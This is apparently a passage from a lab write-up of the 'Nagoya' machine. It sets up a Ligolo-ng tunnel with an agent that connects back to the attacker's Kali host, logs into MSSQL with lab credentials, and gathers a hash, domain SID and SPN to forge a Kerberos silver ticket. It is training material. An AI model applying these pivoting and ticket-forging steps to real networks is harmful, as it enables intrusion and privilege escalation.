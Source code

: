From Kali:
1. `sudo ip tuntap add user pop mode tun ligolo`
2. `sudo ip link set ligolo up`
3. `sudo ip route add $targetIP.0/24 dev ligolo`
4. `sudo ./proxy -selfcert`

From Windows Target (agent file):
1. `.\ligolo.exe -connect $kaliIP:11601 -ignore-cert`

Then from Kali:
1. `session`
2. `1`
3. `Start`
	1. - `ip route add 240.0.0.1/32 dev ligolo`
	- **240.0.0.1** will point to whatever machine Ligolo-ng has an active tunnel on. So we can access mssql over 240.0.0.1:1433

We can then access the mssql instance using this command: `impacket-mssqlclient svc_mssql:'Service1'@240.0.0.1 -windows-auth`. 

![Nagoya6.png](/assets/images/Nagoya/Nagoya6.png){: .center-aligned width="600px"}

Unfortunately the mssql instance does not seem to have any non-default databases in it, as all four of these are. We can try to use `xp_cmdshell`, but unfortunately our user does not have permission to perform this action. That's where the silver ticket comes in. 

The silver ticket requires the following three pieces of information:
1. SPN password hash
	1. In this case we already have the password (`Service1`), but we can use online tools to create the NTLM hash. [CodeBeautify.org](https://codebeautify.org/ntlm-hash-generator) has an NTLM generator which gives the output: `E3A0168BC21CFB88B95C954A5B18F57C`.
2. Domain SID
	1. We can get this with powershell:
		1. `Get-ADdomain`: `S-1-5-21-1969309164-1513403977-1686805993`
3. Target SPN
	1. We can get this with powershell:
		1. `Get-ADUser -Filter {SamAccountName -eq "$user"} -Properties ServicePrincipalNames`: `MSSQL/nagoya.nagoya-industries.com`
4. Target User
	1. Usually `-user-id 500 Administrator`
